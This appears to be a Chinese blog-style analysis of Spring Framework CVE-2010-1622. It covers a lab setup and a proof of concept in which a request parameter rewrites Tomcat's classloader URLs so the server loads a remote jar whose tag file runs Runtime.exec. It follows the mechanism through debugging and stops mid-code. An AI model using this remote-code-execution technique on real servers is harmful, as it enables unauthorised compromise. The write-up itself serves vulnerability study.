# Spring Framework 代码执行(CVE-2010-1622)

Spring Framework 通过内省实现了参数绑定，可以将HTTP请求中的请求参数或者请求体内容，根据 Controller方法的参数，自动完成类型转换和赋值，导致可以覆盖classLoader中的属性，通过修改Tomcat WebappClassLoader 中的 repositoryURLs 让应用程序加载自定义jar包从而造成代码执行漏洞。

## 影响范围

* Spring Framework
  * \>= 2.5.0, <= 2.5.6
  * \>= 3.0.0, <= 3.0.2
* Tomcat 
  * < 6.0.28

## 环境搭建

```bash
git clone https://github.com/l3yx/vuln-debug.git
cd vuln-debug/spring-framework/CVE-2010-1622
docker-compose up -d
```

Web服务：http://127.0.0.1:8080/

远程调试：127.0.0.1:5005

源码在vuln-debug/spring-framework/CVE-2010-1622/code目录，使用IDEA远程调试。

## 漏洞复现

构造如下结构的Jar包并通过Web服务开放下载，可以使用zip或jar命令打包：

```bash
jar cf sp-exp.jar *
```

```bash
zip -q -r sp-exp.jar *
```



其中spring-form.tld和InputTag.tag的内容分别为：

```xml
<?xml version="1.0" encoding="UTF-8"?>
<taglib xmlns="http://java.sun.com/xml/ns/j2ee"
    xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xsi:schemaLocation="http://java.sun.com/xml/ns/j2ee http://java.sun.com/xml/ns/j2ee/web-jsptaglibrary_2_0.xsd" version="2.0">
    <description>Spring Framework JSP Form Tag Library</description>
    <tlib-version>3.0</tlib-version>
    <short-name>form</short-name>
    <uri>http://www.springframework.org/tags/form</uri>
    <tag-file>
        <name>input</name>
        <path>/META-INF/tags/InputTag.tag</path>
    </tag-file>
    <tag-file>
        <name>form</name>
        <path>/META-INF/tags/InputTag.tag</path>
    </tag-file>
</taglib>
```

```jsp
<%@ tag dynamic-attributes="dynattrs" %>
<%
    java.lang.Runtime.getRuntime().exec("touch /tmp/success");
%>
```


环境启动后，直接携带POC访问 [http://127.0.0.1:8080/test?class.classLoader.URLs[0]=jar:http://ip:8000/sp-exp.jar!/](http://127.0.0.1:8080/test?class.classLoader.URLs[0]=jar:http://ip:8000/sp-exp.jar!/)，如果在此之前访问了 http://127.0.0.1:8080/test 将不会触发后续流程。




如上环境，Controller：



test.jsp:



## 漏洞分析

### Java内省

针对 Java Bean，在运行时可以获取如属性、方法和事件等相应的信息进行一些处理，这就是 Java Bean 的内省机制，其实就是对反射的一种封装。

Java Bean 内省机制的核心类是 `Introspector`，有两种常用方法来获取 Java Bean 的信息。

* `getBeanInfo(Class<?> beanClass)`
* `getBeanInfo(Class<?> beanClass, Class<?> stopClass)`

例如通过内省获取User类的属性：

```java
public class User {
    private String name;

    public String getName() {
        return name;
    }

    public void setName(String name) {
        this.name = name;
    }

    public void setAge(int age) {
        return null;
    }
}
```

```java
public static void main(String[] args) throws IntrospectionException {
    BeanInfo userBeanInfo = Introspector.getBeanInfo(User.class,Object.class);
    PropertyDescriptor[] propertyDescriptors = userBeanInfo.getPropertyDescriptors();
    for (PropertyDescriptor propertyDescriptor : propertyDescriptors) {
        System.out.println(propertyDescriptor.getName());
    }

    System.out.println("\n");

    userBeanInfo = Introspector.getBeanInfo(User.class);
    propertyDescriptors = userBeanInfo.getPropertyDescriptors();
    for (PropertyDescriptor propertyDescriptor : propertyDescriptors) {
        System.out.println(propertyDescriptor.getName());
    }
}
```

>age
>name
>
>age
>class
>name

没有使用`stopClass`的情况下会使得访问该类的同时访问到`Object.class`。因为在java中所有的对象都会默认继承Object基础类。而又因为它存在一个`getClass()`方法（只要有 getter/setter 方法中的其中一个，那么 Java 的内省机制就会认为存在一个属性），所以会找到class属性。


### Spring MVC参数绑定

Spring MVC支持将HTTP请求中的的请求参数或者请求体内容，根据`Controller`方法的参数，自动完成类型转换和赋值。

```java
public class User {
    private String name;
    private Pet pet;

    public String getName() {
        return name;
    }

    public void setName(String name) {
        this.name = name;
    }

    public Pet getPet() {
        return pet;
    }

    public void setPet(Pet pet) {
        this.pet = pet;
    }
}
```

```java
public class Pet {
    private String name;

    private int age;

    private String children[]= new String[]{"1"};

    public int getAge() {
        return age;
    }

    public String[] getChildren() {
        return children;
    }

    public String getName() {
        return name;
    }

    public void setName(String name) {
        this.name = name;
    }
}
```



`pet.name=test`说明 Spring MVC 支持多层嵌套的参数绑定，`pet.age=10`没有成功赋值是因为没有相应的set方法，但`children`没有相应的set方法也可以成功赋值。

### 漏洞调试

在`org.springframework.beans.AbstractPropertyAccessor#setPropertyValues(org.springframework.beans.PropertyValues, boolean, boolean)`下断点，请求`/test?class.classLoader.URLs[0]=jar:http://docker.for.mac.host.internal:8000/sp-exp.jar!/'`



一直跟到设置`URLs[0]`的地方：



是从`cachedIntrospectionResults`中获取PropertyDescriptor。



发现其实就是封装了内省的操作。



在最后赋值的时候`org.springframework.beans.BeanWrapperImpl#setPropertyValue(org.springframework.beans.BeanWrapperImpl.PropertyTokenHolder, org.springframework.beans.PropertyValue)`，判断类型是Array时会直接调用`Array.set`，由此绕过了set方法，直接调用底层赋值。后面同样List，Map类型的字段也有类似的处理，也就是说这三种类型是不需要set方法的。



而一般的值，最终是在`org.springframework.beans.BeanWrapperImpl#setPropertyValue(org.springframework.beans.BeanWrapperImpl.PropertyTokenHolder, org.springframework.beans.PropertyValue)`

通过内省赋值。




完成参数绑定后`repositoryURLs[0]`变成我们输入的值：



为什么Payload中是`class.classLoader.URLs[0]=`，而最终被赋值的是`repositoryURLs[0]`，这是因为`WebappClassLoader`中存在一个`getURLs`方法，Spring MVC 通过内省认为存在`URLs`属性，`getURLs`返回的是
`repositoryURLs`，然后通过`Array.set`直接改变`repositoryURLs`的值。通过内省演示如下：

```java
import java.beans.*;
import java.lang.reflect.*;
import java.util.Arrays;

public class User {
    private String names[]= new String[]{"1"};

    public String[] getTest() {
        return names;
    }

    public static String str(Object o){
        try{
            return Arrays.toString((String[]) o);
        }catch (Exception e){
            return o.toString();
        }
    }

    public static void main(String[] args) throws Exception {
        User user = new User();

        BeanInfo userBeanInfo = Introspector.getBeanInfo(User.class,Object.class);
        PropertyDescriptor[] propertyDescriptors = userBeanInfo.getPropertyDescriptors();

        for (PropertyDescriptor propertyDescriptor : propertyDescriptors) {
            Method readMethod = propertyDescriptor.getReadMethod();
            System.out.println(propertyDescriptor.getName()+":"+ str(readMethod.invoke(user)) );
            if (propertyDescriptor.getName().equals("test")) {
                Array.set(readMethod.invoke(user), 0, "l3yx");
                System.out.println(propertyDescriptor.getName()+":"+ str(readMethod.invoke(user)) );
            }
        }
    }
}
```

>test:[1]
>test:[l3yx]


在渲染jsp页面时，Spring会通过Jasper中的TldLocationsCache类（jsp平台对jsp解析时用到的类）从WebappClassLoader里面读取url参数（用来解析TLD文件在解析TLD的时候，是允许直接使用jsp语法的）在init时通过scanJars方法依次读取并加载。

`org.apache.jasper.compiler.TldLocationsCache#init`



这里`if (!this.initialized) `可以看出漏洞利用条件是需要是该应用启动后第一次的jsp页面请求即第一次渲染进行`TldLocationsCache.init`才可以。

`org.apache.jasper.compiler.TldLocationsCache#scanJars`





完成视图解析渲染后，`test.jsp`和远程jar中的代码都被编译到本地：



`test_jsp.java`：

```java
package org.apache.jsp.WEB_002dINF.pages;

import javax.servlet.*;
import javax.servlet.http.*;
import javax.servlet.jsp.*;

public final class test_jsp extends org.apache.jasper.runtime.HttpJspBase
    implements org.apache.jasper.runtime.JspSourceDependent {

  private static final JspFactory _jspxFactory = JspFactory.getDefaultFactory();

  private static java.util.List _jspx_dependants;

  static {
    _jspx_dependants = new java.util.ArrayList(2);
    _jspx_dependants.add("jar:http://docker.for.mac.host.internal:8000/sp-exp.jar!/META-INF/spring-form.tld");
    _jspx_dependants.add("jar:http://docker.for.mac.host.internal:8000/sp-exp.jar!/META-INF/tags/InputTag.tag");
  }

  private javax.el.ExpressionFactory _el_expressionfactory;
  private org.apache.AnnotationProcessor _jsp_annotationprocessor;

  public Object getDependants() {
    return _jspx_dependants;
  }

  public void _jspInit() {
    _el_expressionfactory = _jspxFactory.getJspApplicationContext(getServletConfig().getServletContext()).getExpressionFactory();
    _jsp_annotationprocessor = (org.apache.AnnotationProcessor) getServletConfig().getServletContext().getAttribute(org.apache.AnnotationProcessor.class.getName());
  }

  public void _jspDestroy() {
  }

  public void _jspService(HttpServletRequest request, HttpServletResponse response)
        throws java.io.IOException, ServletException {

    PageContext pageContext = null;
    HttpSession session = null;
    ServletContext application = null;
    ServletConfig config = null;
    JspWriter out = null;
    Object page = this;
    JspWriter _jspx_out = null;
    PageContext _jspx_page_context = null;


    try {
      response.setContentType("text/html");
      pageContext = _jspxFactory.getPageContext(this, request, response,
      			null, true, 8192, true);
      _jspx_page_context = pageContext;
      application = pageContext.getServletContext();
      config = pageContext.getServletConfig();
      session = pageContext.getSession();
      out = pageContext.getOut();
      _jspx_out = out;

      out.write('\n');
      if (_jspx_meth_form_005fform_005f0(_jspx_page_context))
        return;
      out.write('\n');
    } catch (Throwable t) {
      if (!(t instanceof SkipPageException)){
        out = _jspx_out;
        if (out != null && out.getBufferSize() != 0)
          try { out.clearBuffer(); } catch (java.io.IOException e) {}
        if (_jspx_page_context != null) _jspx_page_context.handlePageException(t);
      }
    } finally {
      _jspxFactory.releasePageContext(_jspx_page_context);
    }
  }

  private boolean _jspx_meth_form_005fform_005f0(PageContext _jspx_page_context)
          throws Throwable {
    PageContext pageContext = _jspx_page_context;
    JspWriter out = _jspx_page_context.getOut();
    //  form:form
    org.apache.jsp.tag.meta.http_003a.www_springframework_org.tags.form.InputTag_tag _jspx_th_form_005fform_005f0 = new org.apache.jsp.tag.meta.http_003a.www_springframework_org.tags.form.InputTag_tag();
    org.apache.jasper.runtime.AnnotationHelper.postConstruct(_jsp_annotationprocessor, _jspx_th_form_005fform_005f0);
    _jspx_th_form_005fform_005f0.setJspContext(_jspx_page_context);
    // /WEB-INF/pages/test.jsp(2,0) null
    _jspx_th_form_005fform_005f0.setDynamicAttribute(null, "commandName", new String("user"));
    _jspx_th_form_005fform_005f0.setJspBody(new Helper( 0, _jspx_page_context, _jspx_th_form_005fform_005f0, null));
    _jspx_th_form_005fform_005f0.doTag();
    org.apache.jasper.runtime.AnnotationHelper.preDestroy(_jsp_annotationprocessor, _jspx_th_form_005fform_005f0);
    return false;
  }

  private boolean _jspx_meth_form_005finput_005f0(javax.servlet.jsp.tagext.JspTag _jspx_parent, PageContext _jspx_page_context)
          throws Throwable {
    PageContext pageContext = _jspx_page_context;
    JspWriter out = _jspx_page_context.getOut();
    //  form:input
    org.apache.jsp.tag.meta.http_003a.www_springframework_org.tags.form.InputTag_tag _jspx_th_form_005finput_005f0 = new org.apache.jsp.tag.meta.http_003a.www_springframework_org.tags.form.InputTag_tag();
    org.apache.jasper.runtime.AnnotationHelper.postConstruct(_jsp_annotationprocessor, _jspx_th_form_005finput_005f0);
    _jspx_th_form_005finput_005f0.setJspContext(_jspx_page_context);
    _jspx_th_form_005finput_005f0.setParent(_jspx_parent);
    // /WEB-INF/pages/test.jsp(3,4) null
    _jspx_th_form_005finput_005f0.setDynamicAttribute(null, "path", new String("name"));
    _jspx_th_form_005finput_005f0.doTag();
    org.apache.jasper.runtime.AnnotationHelper.preDestroy(_jsp_annotationprocessor, _jspx_th_form_005finput_005f0);
    return false;
  }

  private class Helper
      extends org.apache.jasper.runtime.JspFragmentHelper
  {
    private javax.servlet.jsp.tagext.JspTag _jspx_parent;
    private int[] _jspx_push_body_count;

    public Helper( int discriminator, JspContext jspContext, javax.servlet.jsp.tagext.JspTag _jspx_parent, int[] _jspx_push_body_count ) {
      super( discriminator, jspContext, _jspx_parent );
      this._jspx_parent = _jspx_parent;
      this._jspx_push_body_count = _jspx_push_body_count;
    }
    public boolean invoke0( JspWriter out )
      throws Throwable
    {
      out.write("\n");
      out.write("    ");
      if (_jspx_meth_form_005finput_005f0(_jspx_parent, _jspx_page_context))
        return true;
      out.write('\n');
      return false;
    }
    public void invoke( java.io.Writer writer )
      throws JspException
    {
      JspWriter out = null;
      if( writer != null ) {
        out = this.jspContext.pushBody(writer);
      } else {
        out = this.jspContext.getOut();
      }
      try {
        this.jspContext.getELContext().putContext(JspContext.class,this.jspContext);
        switch( this.discriminator ) {
          case 0:
            invoke0( out );
            break;
        }
      }
      catch( Throwable e ) {
        if (e instanceof SkipPageException)
            throw (SkipPageException) e;
        throw new JspException( e );
      }
      finally {
        if( writer != null ) {
          this.jspContext.popBody();
        }
      }
    }
  }
}
```

代码中对应`<spring:form>`和`<spring:input>`标签的是`_jspx_meth_form_005fform_005f0`和`_jspx_meth_form_005finput_005f0`。

`_jspx_meth_form_005finput_005f0()` => `new InputTag_tag()` => `_jspx_th_form_005finput_005f0.doTag()` 

`InputTag_tag.java`：

```java
package org.apache.jsp.tag.meta.http_003a.www_springframework_org.tags.form;

import javax.servlet.*;
import javax.servlet.http.*;
import javax.servlet.jsp.*;

public final class InputTag_tag
    extends javax.servlet.jsp.tagext.SimpleTagSupport
    implements org.apache.jasper.runtime.JspSourceDependent,
               javax.servlet.jsp.tagext.DynamicAttributes {


  private static final JspFactory _jspxFactory = JspFactory.getDefaultFactory();

  private static java.util.List _jspx_dependants;

  private JspContext jspContext;
  private java.io.Writer _jspx_sout;
  private javax.el.ExpressionFactory _el_expressionfactory;
  private org.apache.AnnotationProcessor _jsp_annotationprocessor;

  public void setJspContext(JspContext ctx) {
    super.setJspContext(ctx);
    java.util.ArrayList _jspx_nested = null;
    java.util.ArrayList _jspx_at_begin = null;
    java.util.ArrayList _jspx_at_end = null;
    this.jspContext = new org.apache.jasper.runtime.JspContextWrapper(ctx, _jspx_nested, _jspx_at_begin, _jspx_at_end, null);
  }

  public JspContext getJspContext() {
    return this.jspContext;
  }
  private java.util.HashMap _jspx_dynamic_attrs = new java.util.HashMap();

  public void setDynamicAttribute(String uri, String localName, Object value) throws JspException {
    if (uri == null)
      _jspx_dynamic_attrs.put(localName, value);
  }
  public Object getDependants() {
    return _jspx_dependants;
  }

  private void _jspInit(ServletConfig config) {
    _el_expressionfactory = _jspxFactory.getJspApplicationContext(config.getServletContext()).getExpressionFactory();
    _jsp_annotationprocessor = (org.apache.AnnotationProcessor) config.getServletContext().getAttribute(org.apache.AnnotationProcessor.class.getName());
  }

  public void _jspDestroy() {
  }

  public void doTag() throws JspException, java.io.IOException {
    PageContext _jspx_page_context = (PageContext)jspContext;
    HttpServletRequest request = (HttpServletRequest) _jspx_page_context.getRequest();
    HttpServletResponse response = (HttpServletResponse) _jspx_page_context.getResponse();
    HttpSession session = _jspx_page_context.getSession();
    ServletContext application = _jspx_page_context.getServletContext();
    ServletConfig config = _jspx_page_context.getServletConfig();
    JspWriter out = jspContext.getOut();
    _jspInit(config);
    jspContext.getELContext().putContext(JspContext.class,jspContext);
    _jspx_page_context.setAttribute("dynattrs", _jspx_dynamic_attrs);
    try {
      out.write('\n');

    java.lang.Runtime.getRuntime().exec("touch /tmp/success");

    } catch( Throwable t ) {
      if( t instanceof SkipPageException )
          throw (SkipPageException) t;
      if( t instanceof java.io.IOException )
          throw (java.io.IOException) t;
